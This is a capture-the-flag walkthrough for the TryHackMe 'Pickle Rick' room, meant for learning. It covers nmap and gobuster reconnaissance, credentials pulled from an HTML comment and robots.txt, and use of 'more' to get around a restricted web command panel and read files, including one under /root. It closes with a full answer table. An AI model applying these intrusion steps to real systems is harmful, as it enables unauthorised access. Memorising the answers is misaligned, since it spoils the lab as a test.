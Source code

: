 
# 🥒 TryHackMe CTF: Pickle Rick

---

## 📌 Room Name
**Pickle Rick**  
🔗 [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

---

## 💻 Target IP
```

10.10.211.109

````

---

## 🛠️ Step 1: Connect to VPN

Connected to TryHackMe network using OpenVPN.

```bash
sudo openvpn yourconfig.ovpn
````

---

## 🔍 Step 2: Scan with Nmap

```bash
nmap -sC -sV -oN nmap.txt 10.10.211.109
```

### Open Ports:

```
22/tcp open  ssh
80/tcp open  http
```

---

## 🌐 Step 3: Explore the Website

Visited `http://10.10.211.109` and found:

* Hidden **HTML comment**:

  ```
  Username: R1ckRul3s
  ```
* Found `/robots.txt` with:

  ```
  Wubbalubbadubdub
  ```

---

## 🔍 Step 4: Find Hidden Pages

Used Gobuster/ffuf to discover `/command` page.

```bash
gobuster dir -u http://10.10.211.109/ -w /usr/share/wordlists/dirb/common.txt
```

---

## 🔐 Step 5: Log into Command Panel

URL:

```
http://10.10.211.109/command
```

* Username: `R1ckRul3s`
* Password: `Wubbalubbadubdub`

A command panel appears, allowing basic Linux commands.

---

## 🧪 Step 6: Find the Ingredients

Used `more` to bypass disabled commands.

### ✅ First Ingredient

```bash
more Sup3rS3cretPickl3Ingred.txt
```

**Answer:** `mr. meeseek hair`

### ✅ Second Ingredient

```bash
more /home/rick/second_ingredient.txt
```

**Answer:** `1 jerry tear`

### ✅ Final Ingredient

```bash
more /root/third_ingredient.txt
```

**Answer:** `fleeb juice`

---

## ✅ Final Answers

| Question                           | Answer             |
| ---------------------------------- | ------------------ |
| First ingredient Rick needs        | `mr. meeseek hair` |
| Second ingredient in Rick’s potion | `1 jerry tear`     |
| Last and final ingredient          | `fleeb juice`      |

---

## 🏁 Completion Proof

> ![Successfully Completed the Room](images/completed.png)

---

## 📝 Notes

* Learned basic web enumeration
* Used credential hints from HTML and robots.txt
* Navigated a restricted command shell interface

---

## ✅ Done!

CTF Room fully completed and all answers submitted.

 

